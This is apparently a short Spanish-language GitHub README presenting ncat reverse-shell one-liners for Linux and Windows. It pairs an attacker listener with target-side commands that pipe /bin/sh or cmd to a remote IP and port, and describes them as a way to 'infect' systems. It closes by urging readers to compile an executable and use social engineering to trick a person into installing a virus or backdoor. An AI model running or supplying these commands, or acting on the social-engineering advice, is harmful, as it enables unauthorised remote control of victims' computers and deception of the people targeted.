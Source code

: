 # REVERSE_SHELL-CON-NCAT

# Aqui te muestro la manera mas sencilla de infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result> ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " ( es por algo que lo llaman de esta manera)




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas! 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows, 
* Y usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.

# Ire actualizando el repo.

